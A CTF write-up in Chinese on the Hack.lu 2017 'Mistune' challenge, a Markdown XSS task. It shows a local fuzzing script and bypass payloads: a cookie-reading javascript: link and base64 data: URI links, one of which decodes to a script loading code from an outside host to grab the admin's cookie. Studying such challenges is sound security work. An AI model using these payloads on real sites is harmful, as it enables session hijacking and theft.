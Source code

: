 ```yaml
---
title:  HACK.LU CTF 2017 Web  Write-up
subtitle: CTF
time: 2017.10.19 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web
excerpt: Hack.lu CTF Web题解，共勉。

---
```


# HACK.LU CTF 2017 WP



## Mistune

![Markdownxss](https://moxiaoxi.info/img/post/hacklu/Markdownxss.png)

这是一道Markdown的XSS题，题目中有一个测试页面用来测试具体输入输出，与此同时admin页面存在提示:

```html
We use mistune.Renderer(escape=True, hard_wrap=True)
The admin will look at your converted Markdown.
The admin will click on links (<a>).
You can check the queue here
```

所以，思路很明确，就是绕过markdown进行xss。

为了方便fuzz，写了一个本地脚本，模仿过滤。

```python
import mistune

renderer = mistune.Renderer(escape=True, hard_wrap=True)
# use this renderer instance
markdown = mistune.Markdown(renderer=renderer)
while True:
    text = raw_input('test Markdown XSS:\n')
    print markdown(text)
```
测试结果如下：

```Html
<> & 会被转义
'"在markdown语法中会被转义
javascript被禁
右括号有影响,一个右括号就当作闭合
text=[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))&test=Test+in+Browser
=>>
 <p><p><a href="j    a   v   a   s   c   r   i   p   t:prompt(document.cookie">a</a>1)2)</p>
</p>


点击base64可以xss
text=[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\&test=Test+in+Browser


测试：
[a](data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cHM6Ly94LnNlY2JveC5jbi9iVzhEblE%2bPC9zY3JpcHQ%2b)

```